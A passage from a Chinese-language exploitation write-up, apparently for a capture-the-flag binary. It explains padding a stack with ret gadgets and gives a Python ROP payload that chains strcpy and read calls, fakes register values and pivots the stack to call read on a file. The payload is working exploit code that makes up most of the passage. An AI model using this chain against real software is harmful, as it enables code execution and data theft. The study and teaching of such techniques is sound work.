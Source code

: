 而這個位置只有 20 bytes 是主要一定要被執行到的 gadget

在這 20 bytes 前都塞入單純 ret 的 gadget

就能提高有執行到那 20 bytes 的機率

而這 gadget 功能主要是執行 `read(0, buf, size)`

```python
# Now we have a beautiful rop environment
buf2 = buf+0xb00
# copy syscall gadget:
#   __GI___libc_read+0x20: call   DWORD PTR gs:0x10
#   (call __kernel_vsyscall)
rop = flat(
        strcpy_plt, pop_pop, buf+0x200, d0,
        strcpy_plt, pop_pop, buf+0x201, read_got+1,
        strcpy_plt, pop_pop, buf+0x204, null_buf,
        strcpy_plt, pop_pop, buf+0x300, buf+0x200,
        strcpy_plt, pop_pop, buf+0x400, buf+0x200,
        strcpy_plt, pop_pop, buf+0x500, buf+0x200)
rop += flat(
        read_plt, pop_pop_pop, 0, buf+0x208, len(filename),
        read_plt, pop_pop_pop, 0, buf+0x300-0x24, 0x24,
        read_plt, pop_pop_pop, 0, buf+0x300+0x20, 0x24,
        read_plt, pop_pop_pop, 0, buf+0x400-0x24, 0x24,
        read_plt, pop_pop_pop, 0, buf+0x400+0x20, 0x24,
        read_plt, pop_pop_pop, 0, buf+0x500-0x24, 0x24,
        pop_ebp, buf+0x300-0x24-0x4, leave_ret)
fakeecx = buf+0x28+0x4 # make esp point to rop chain
fakeebx = 0x03030303
fakeesi = 0x04040404
fakeedi = 0x05050505
fakeebp = buf2
payload = flat(
        buf - 0x30,
        0x01010101,
        0x01010101,
        0x01010101,
        0x01010101,
        fakeecx,
        fakeebx,
        fakeesi,
        fakeedi,
        fakeebp
        )
payload += rop
send(payload)
```
這段就是對應 `read(0, buf, size)` 的輸入

因為執行流跑到了 main 中的第二次 read, 接下來還會執行一系列 `strlen`, 3 次 `strcpy` 之類的

需要讓這些 code 安然執行到 return
